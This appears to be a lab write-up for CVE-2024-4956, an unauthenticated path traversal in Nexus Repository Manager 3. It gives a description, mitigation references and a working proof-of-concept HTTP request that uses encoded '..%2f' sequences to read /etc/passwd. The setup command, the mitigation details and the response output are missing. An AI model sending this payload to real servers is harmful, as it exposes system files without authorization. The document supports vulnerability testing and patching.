

# CVE-2024-4956 - Unauthenticated Path Traversal in Nexus Repository Manager 3 

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

A path traversal vulnerability has been discovered in Nexus Repository 3 before version 3.68.1, the vulnerability allows for an attacker to craft a URL to return any file as a download, including system files outside of Nexus Repository application scope, without any authentication.

References:

- <https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16>

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.68.0

### Mitigation:

Upgrading Nexus Repository is the recommended approach for eliminating this vulnerability. However, immediate mitigation options are available for deployments that cannot upgrade immediately: 

References:

- <https://support.sonatype.com/hc/en-us/articles/29412417068819>

## PoC

```
GET /%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f../etc/passwd HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

As you can see, `/etc/passwd` has been exposed directly:


